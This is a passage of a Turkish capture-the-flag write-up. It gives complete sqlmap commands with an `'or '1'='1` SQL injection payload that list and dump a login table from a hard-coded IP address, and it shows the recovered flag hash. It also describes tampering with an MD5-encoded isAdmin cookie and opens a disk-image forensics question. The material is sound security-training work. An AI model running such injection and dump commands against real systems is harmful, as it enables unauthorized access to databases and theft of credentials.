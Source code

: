 ```
sqlmap -u "http://85.111.95.37/fc00914149de9f33c30cf0164ec4db95" --data="kullaniciadi=Yonetici&parola='or '1'='1" --tables -D web2
```

kullanicilar diye tek bir tablo bulucak.

Kolonları çekmek için

```
sqlmap -u "http://85.111.95.37/fc00914149de9f33c30cf0164ec4db95" --data="kullaniciadi=Yonetici&parola='or '1'='1" --columns-D web2 -T kullanicilar
```

Bunun sonucunda aşağıdaki gibi bir sonuç çıkacak

```
id int(255)
kullaniciadi varchar(255)
parola int(255)
```

kolonlardaki verileri çekmek için

```
sqlmap -u "http://85.111.95.37/fc00914149de9f33c30cf0164ec4db95" --data="kullaniciadi=Yonetici&parola='or '1'='1" --dump -D web2 -T kullanicilar
```

2 adet Kullanıcı bulucak teki `Yonetici` diğerinin adı "FLAG:" **FLAG** kullanıcısının parolası

```
f4aa0edc033b9dfcc676c33420996789
```

Kaynak: Alpcan ONARAN

----------

**Soru 3**

*Yetkili bir kullanıcı ile giriş yapman lazım.* Sorusuna gelelim bu soruda ise sistemde zaten hali hazırda giriş yapmış olduğumuzu biliyoruz. Ancak bize daha yetkilisini bulmamızı söylüyor. Ve sayfa ilk giriş yaptığımızda bize çerez olarak

```
isAdmin=cfcd208495d565ef66e7dff9f98764da
```

Yukarıdaki yükleniyor hemen ardından ise çıkış yaptığımızda bu değeri sistemden siliyor. Biz bu değeri bir decode edelim dedik karşımıza `0` çıktı cevap haliyle bu olamazdı

----------

**Soru 4**

*"Elimizde bir flash bellek var, içerisindeki resimlerden biri bize lazım."* adlı sorumuza geldi sıra buradada bize verdiği dosya sözde bir disk imajı

```
ef2a36ae56f254dd6adf716dffc84264: DOS/MBR boot sector, code offset 0x52+2, OEM-ID "NTFS    ", sectors/cluster 8, Media descriptor 0xf8, sectors/track 62, heads 247, hidden sectors 2048, dos < 4.0 BootSector (0x80), FAT (1Y bit by descriptor); NTFS, sectors/track 62, sectors 102399, $MFT start cluster 4, $MFTMirror start cluster 6399, bytes/RecordSegment 2^(-1*246), clusters/index block 1, serial number 013e61d99342ea2e1; contains Microsoft Windows XP/VISTA bootloader BOOTMGR
```
